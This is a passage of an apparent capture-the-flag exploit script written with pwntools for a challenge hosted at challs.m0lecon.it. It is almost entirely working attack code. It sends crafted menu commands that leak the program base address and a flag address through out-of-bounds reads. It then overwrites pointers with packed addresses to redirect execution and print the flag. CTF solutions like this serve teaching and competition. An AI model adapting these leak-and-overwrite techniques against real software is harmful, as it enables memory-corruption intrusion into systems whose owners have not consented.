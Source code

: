 ```python
            p.sendline(starting + str(i))
            break
        i += 1

def conn():
    if args.REMOTE:
        r = remote("challs.m0lecon.it",2123)
        solvepow(r, n = 5)
        return r
    elif args.GDB:
        return gdb.debug([exe.path])
    else:
        return process([exe.path])


def send_menu(r, msg):
    r.sendline(msg)
    r.recvuntil(b"Exit\n>")

def main():
    r = conn()
    
    r.recvuntil(b"Exit\n>")

    send_menu(r, b"1 0 -1 -1")
    send_menu(r, b"1 1 -1 -3")
    send_menu(r, b"4 1 aaaaaaaabaaaaaaacaaaaaaa")
    send_menu(r, b"6 1 0")

    r.sendline(b"2 0")
    r.recvuntil(b"aaaaaaaabaaaaaaacaaaaaaa")
    program_base = u64(r.recvline().rstrip().ljust(8,b"\x00")) - 0x5d50
    r.recvuntil(b"Exit\n>")
    log.info("leaked program_base: " + hex(program_base))

    show_sources = program_base + 0x5d60 - 8
    flag_addr = program_base + 0x403b - 0x18

    send_menu(r, b"4 1 aaaaaaaabaaaaaaacaaaaaaadaaaaaaa")
    send_menu(r, b"1 2 -1 -3")
    send_menu(r, b"6 1 2")
    r.sendline(b"2 2")
    r.recvuntil(b"aaaaaaaabaaaaaaacaaaaaaadaaaaaaa")
    flag_addr = u64(r.recv(6).ljust(8,b"\x00")) + 0x18
    r.recvuntil(b"Exit\n>")
    log.info("leaked flag addr: " + hex(flag_addr))

    send_menu(r, b"4 1 aaaaaaaabaaaaaaacaaaaaaa" + p64(show_sources) + p64(flag_addr - 0x18))
    send_menu(r, b"6 1 0")

    r.sendline(b"5 1")
    r.sendline(b"7")

    log.info((b"flag found: " + re.search(b"(ptm{.*})", r.recvall()).group(1)).decode())
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()

```
